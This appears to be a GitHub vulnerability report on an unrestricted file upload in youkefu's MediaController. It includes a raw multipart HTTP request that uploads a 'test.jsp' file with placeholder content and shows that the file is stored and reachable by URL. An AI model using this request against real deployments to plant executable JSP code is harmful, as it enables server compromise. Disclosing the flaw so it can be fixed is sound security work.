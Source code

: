 At line 138 of`\youkefu-master\src\main\java\com\ukefu\webim\web\handler\resource\MediaController.java `,There is an upload method, and after roughly reading the code, it was found that there are no restrictions or filtering processes on the file name inside the method. The file parameter imgFile received by this method conforms to javax.servlet.http.HttpServletRequest type.
![image](https://github.com/user-attachments/assets/94427c92-9d86-45de-a815-2759fb3b6eb3)

```
POST /res/image/upload.html HTTP/1.1
Host: 192.168.96.137:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101
Firefox/111.0
   Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,
*/*;q=0.8
   Accept-Language:
zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
   Content-Type: multipart/form-data;
boundary=---------------------------13001418927212618391481664692
   Content-Length: 226
   Origin: http://192.168.96.137:8088
   Connection: close
   Referer: http://192.168.96.137:8088/admin/config/index.html
   Cookie: SESSION=ced351be-b08e-443a-972d-17e17693f2a9
   Upgrade-Insecure-Requests: 1
   -----------------------------13001418927212618391481664692
   Content-Disposition: form-data; name="imgFile"; filename="test.jsp"
   Content-Type: text/html
   123456
   -----------------------------13001418927212618391481664692--
```

After the above request packet was sent, the access path of the file was returned
![image](https://github.com/user-attachments/assets/2667dc11-7474-4775-84c7-c984b8847914)
Search for the file name in the server where the application is located, such as "e10adc3949ba59abbe56e057f20f883e. JSP",
Found that the uploaded file has been written verbatim to the disk
![image](https://github.com/user-attachments/assets/5b9d133e-b7eb-400f-ad34-6295d744682c)
Accessible website：http://192.168.96.137:8088/res/image.html?id=upload/e10adc3949ba59abbe56e057f20f883e.jsp
If uploading a image ：
![image](https://github.com/user-attachments/assets/9be3c6c4-bcdd-420d-8b2e-89b54be37e3b)
